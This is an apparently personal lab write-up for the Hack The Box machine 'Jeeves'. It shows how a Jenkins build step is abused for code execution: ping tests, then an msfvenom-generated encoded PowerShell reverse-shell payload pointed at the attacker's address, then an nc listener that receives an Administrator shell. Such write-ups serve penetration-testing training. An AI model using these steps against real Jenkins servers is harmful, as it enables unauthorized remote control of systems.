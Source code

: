 # Jenkins
- Create a freesyle project
- Prove code execution first with ping
![[Pasted image 20220802132846.png]]

- Build project
![[Pasted image 20220802132950.png]]

- Recieve pings
```
┌──(kali㉿kali)-[~/oscp/boxes/htb/jeeves]
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:28:54.523643 IP 10.10.10.63 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 40
13:28:54.523690 IP 10.10.14.8 > 10.10.10.63: ICMP echo reply, id 1, seq 1, length 40
13:28:55.547911 IP 10.10.10.63 > 10.10.14.8: ICMP echo request, id 1, seq 2, length 40
13:28:55.547941 IP 10.10.14.8 > 10.10.10.63: ICMP echo reply, id 1, seq 2, length 40
13:28:56.488719 IP 10.10.10.63 > 10.10.14.8: ICMP echo request, id 1, seq 3, length 40
13:28:56.488736 IP 10.10.14.8 > 10.10.10.63: ICMP echo reply, id 1, seq 3, length 40
13:28:57.505824 IP 10.10.10.63 > 10.10.14.8: ICMP echo request, id 1, seq 4, length 40
13:28:57.505870 IP 10.10.14.8 > 10.10.10.63: ICMP echo reply, id 1, seq 4, length 40
```

- Create malicious powershell script
```
┌──(kali㉿kali)-[~/oscp/boxes/htb/jeeves]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=80 --format psh-cmd
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of psh-cmd file: 7319 bytes
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBm[...]MAKQA7AA==


```

- Change build action to malicious powershell script
![[Pasted image 20220802133224.png]]

- Build now and recieve shell
```
┌──(kali㉿kali)-[~/oscp/boxes/htb/jeeves]
└─$ nc -nvlp 80
Listening on 0.0.0.0 80
Connection received on 10.10.10.63 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins\workspace\EvilProject>
```